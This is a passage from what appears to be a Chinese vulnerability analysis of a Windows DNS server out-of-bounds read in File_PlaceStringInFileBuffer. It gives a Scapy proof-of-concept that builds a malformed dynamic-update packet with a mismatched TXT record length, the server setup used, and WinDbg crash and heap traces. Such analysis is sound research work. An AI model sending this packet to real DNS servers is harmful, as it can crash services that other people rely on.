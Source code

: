```
query = DNSQR(qname='mal', qtype='SOA')
RRTXT = DNSRR(rr,type='TXT',rdlen=0xbd,rdata='\x41'*0xff)   // 0xff 可修改为更大的数，理论上只要比 0xbd 大即可
packet = IP(dst=ip)/UDP()/DNS(id=random.randint(0,65535),opcode=5,aa=1,tc=1,rd=0,ra=1,cd=1,rcode=5,qd=query,ns=RRTXT)

```

![](https://bbs.pediy.com/upload/attach/202104/701197_XBK7X68HCNXGEKS.png)

 

配置 DNS 服务器，新增一个名为 MAL 的主要区域，并设置允许动态更新。(启用页堆) 以下为漏洞触发场景，问题出现在 dns!File_PlaceStringInFileBuffer 函数中，程序尝试访问超出边界的数据：

```
0:019> g
(874.9a0): Access violation - code c0000005 (first chance)
First chance exceptions are reported before any exception handling.
This exception may be expected and handled.
dns!File_PlaceStringInFileBuffer+0xa2:
00007ff7`50cc67f6 410fb60c24      movzx   ecx,byte ptr [r12] ds:00000271`34988000=??
 
0:004> k
 # Child-SP          RetAddr           Call Site
00 000000bc`b82ff3f0 00007ff7`50cc731e dns!File_PlaceStringInFileBuffer+0xa2
01 000000bc`b82ff440 00007ff7`50bc26a9 dns!TxtFileWrite+0x6e
02 000000bc`b82ff490 00007ff7`50c5da3d dns!RR_WriteToFile+0x205
03 000000bc`b82ff4f0 00007ff7`50c5ecc6 dns!Up_LogZoneUpdate+0x6ad
04 000000bc`b82ffc70 00007ff7`50c5ea30 dns!Up_CompleteZoneUpdate+0x26e
05 000000bc`b82ffd00 00007ff7`50c60c96 dns!Up_ExecuteUpdateEx+0x338
06 000000bc`b82ffd60 00007ff7`50c616ba dns!processWireUpdateMessage+0x456
07 000000bc`b82ffe00 00007ff7`50c550ad dns!Update_Thread+0x12a
 
0:004> !heap -p -a r12    //在 CopyWireRead 函数中调用 RR_AllocateEx 申请空间。用户可用的长度到 0x27134987ff5
    address 0000027134988000 found in
    _DPH_HEAP_ROOT @ 271126b1000
    in busy allocation (  DPH_HEAP_BLOCK:         UserAddr         UserSize -         VirtAddr         VirtSize)
                             27132a28f08:      27134987ef0              105 -      27134987000             2000
    00007fff07e86d67 ntdll!RtlDebugAllocateHeap+0x000000000000003f
    00007fff07e2cade ntdll!RtlpAllocateHeap+0x000000000009d27e
    00007fff07d8da21 ntdll!RtlpAllocateHeapInternal+0x0000000000000991
    00007ff750cc2b4d dns!allocMemory+0x0000000000000039
    00007ff750cc2f28 dns!Mem_Alloc+0x000000000000008c
    00007ff750cc35c2 dns!RR_AllocateEx+0x000000000000003a
    00007ff750c3efd4 dns!CopyWireRead+0x0000000000000024
    00007ff750c3fed2 dns!Wire_CreateRecordFromWire+0x000000000000015a
    00007ff750c5f3d5 dns!writeUpdateFromPacketRecord+0x0000000000000035
    00007ff750c5fbe7 dns!parseUpdatePacket+0x0000000000000423
    00007ff750c60b6d dns!processWireUpdateMessage+0x000000000000032d
    00007ff750c616ba dns!Update_Thread+0x000000000000012a
    00007ff750c550ad dns!threadTopFunction+0x000000000000007d
    00007fff054a7974 KERNEL32!BaseThreadInitThunk+0x0000000000000014
    00007fff07dea271 ntdll!RtlUserThreadStart+0x0000000000000021
 
0:004> db r12-20    //这里要访问 0x27134988000 处的数据
00000271`34987fe0  41 41 41 41 41 41 41 41-41 41 41 41 41 41 41 41  AAAAAAAAAAAAAAAA
00000271`34987ff0  41 41 41 41 41 d0 d0 d0-d0 d0 d0 d0 d0 d0 d0 d0  AAAAA...........
00000271`34988000  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
00000271`34988010  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
00000271`34988020  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
00000271`34988030  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
00000271`34988040  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
00000271`34988050  ?? ?? ?? ?? ?? ?? ?? ??-?? ?? ?? ?? ?? ?? ?? ??  ????????????????
```